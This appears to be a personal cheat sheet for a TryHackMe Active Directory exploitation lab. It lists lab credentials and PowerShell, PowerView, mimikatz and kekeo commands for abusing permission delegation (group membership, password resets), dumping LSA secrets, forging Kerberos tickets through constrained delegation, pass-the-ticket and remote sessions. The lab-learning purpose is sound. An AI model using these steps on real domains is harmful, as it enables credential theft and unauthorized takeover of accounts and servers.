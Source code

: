 christine.hall 

Randall1973

ssh za.tryhackme.loc\\christine.hall@thmwrk1.za.tryhackme.loc
ssh za.tryhackme.loc\\t2_melanie.davies@thmwrk1.za.tryhackme.loc

# Permission Delegation
***
# AddMember
```Powershell
Add-ADGroupMember "<Group>" -Members "<AD Username>"

# Verify it worked with
Get-ADGroupMember -Identity "<Group>"
```

# List accounts of an AD group
```Powershell
# List all groups
Get-ADGroup -Filter {Name -like "pattern"}

# List members of group
Get-ADGroupMember -Identity "Tier 2 Admins"

# Reset password of a member
Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password
```
***
# Kerberos Delegation
***
# Enumerate current available delegations
```
Import-Module C:\Tools\PowerView.ps1 
Get-NetUser -TrustedToAuth
```

# Dump secrets then generate tickets
```
C:\Tools\mimikatz_trunk\x64\mimikatz.exe
mimikatz # token::elevate
mimikatz # lsadump::secrets
exit

# Generate tickets
C:\Tools\kekeo\x64\kekeo.exe
kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc

# Import into mimikatz
mimikatz # kerberos::ptt  TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
```

# Start new ps-session, then enter the session
```
PS C:> New-PSSession -ComputerName thmserver1.za.tryhackme.loc
PS C:\> Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
```

